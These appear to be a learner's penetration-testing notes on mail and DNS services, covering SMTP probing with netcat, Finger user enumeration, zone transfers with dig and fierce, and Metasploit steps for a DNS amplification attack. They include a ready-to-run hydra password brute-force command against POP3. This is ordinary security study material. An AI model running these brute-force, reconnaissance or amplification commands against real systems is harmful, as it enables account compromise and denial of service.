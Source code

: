 DSN (Delivery status notification)
----------------------------------
this happens 1. message is successfully sent
             2. message is not successfuly sent, you receive message about it

may contains informaion about you can be exploited by hackers

SPF (Sender policy framework)
-----------------------------
used to prevent people from forging(spoofing) their email address

Probing smtp service
---------------------
nc <ip> <port> (nc == netcat)
eg: nc 192.168.56.102 25
intiate conversation using HELLO
eg: HELLO hacker

Open relays, POP, IMAP
-----------------------
pop3 --> port 995
imap is modern version of pop3 --> port 143, 993

//search for exim in search in msfconsole

Using enumeration using Finger
-----------------------------
after connecting via netcat type root.
usernames can be found out using Finger service running on port 79
wordlists can be used to shorlist usernames


Brute forcing post office
-----------------------
tool: hydra
hydra -L realusers.txt -P ./wordlists/weak_passwords.txt 192.168.56.102 pop3

Nmap scripting engine
--------------------
can be found at www.hackerhousebook.com/files/nsediscover.py

Hands-on : Zone transfer
------------------------
copy dns zone files from one zone to another

dig @192.168.19.139 AXFR nsa.gov
//outputs more info, might be confidential info

fierce --dns-server 192.168.19.139 --domain nsa.gov
// shows ips of mail servers, etc.

DNS amplification attack
-----------------------
msfconsole
search dns_amp
use 0
info
set DOMAINNAME nsa.gov
set RHOSTS 192.168.19.139
run
